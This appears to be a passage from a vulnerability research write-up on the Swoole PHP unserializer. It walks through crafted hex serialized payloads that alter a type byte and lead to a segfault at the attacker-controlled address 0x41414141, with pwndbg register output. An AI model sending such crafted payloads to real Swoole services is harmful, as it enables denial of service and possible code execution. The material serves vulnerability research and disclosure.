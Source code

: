 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
So the difference is from 8f (with 2 bytes, 3713) to 97 (with 4 bytes, 41414141) -please spot that the difference between 8f and 97 is 8-. What happens if we change that 97 for a 8f in the last entry?

e802ea7b02ea7b02227b0a010800737464436c61737301930470726f70414141410a010800737464436c6173730197c100414141410a010800737464436c61737301**8f**c10041414141454f46

```
[+] Swoole Unserialized:
array(2) {
  [123]=>
  array(2) {
    [123]=>
    array(2) {
      [123]=>
      NULL
      [1]=>
      object(stdClass)#2 (1) {
        ["prop"]=>
        int(1094795585)
      }
    }
    [1]=>
    object(stdClass)#3 (1) {
      ["prop"]=>
      int(1094795585)
    }
  }
  [1]=>
  object(stdClass)#4 (1) {
    ["prop"]=>
    int(16705)
  }
}
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The 16705 vs the 1094795585 expected means that only 2 bytes were taken (16705 == 0x4141). What happens if we put it to zero?

e802ea7b02ea7b02227b0a010800737464436c61737301930470726f70414141410a010800737464436c6173730197c100414141410a010800737464436c61737301**00**c10041414141454f46 

```
...
 44 static zend_always_inline void i_zval_ptr_dtor(zval *zval_ptr ZEND_FILE_LINE_DC)
   45 {
   46   if (Z_REFCOUNTED_P(zval_ptr)) {
   47           zend_refcounted *ref = Z_COUNTED_P(zval_ptr);
 ► 48           if (!--GC_REFCOUNT(ref)) {
   49                   _zval_dtor_func(ref ZEND_FILE_LINE_RELAY_CC);
   ....
Program received signal SIGSEGV (fault address 0x41414141)

pwndbg> i r
rax            0x41414141       1094795585
rbx            0x0      0
rcx            0x14     20
rdx            0x1      1
rsi            0x7ffff3864b60   140737279052640
rdi            0x7ffff38023f0   140737278649328
rbp            0x7fffffff7480   0x7fffffff7480
rsp            0x7fffffff73d0   0x7fffffff73d0
r8             0xffff   65535
r9             0x7fffffff79fc   140737488321020
r10            0x941    2369
```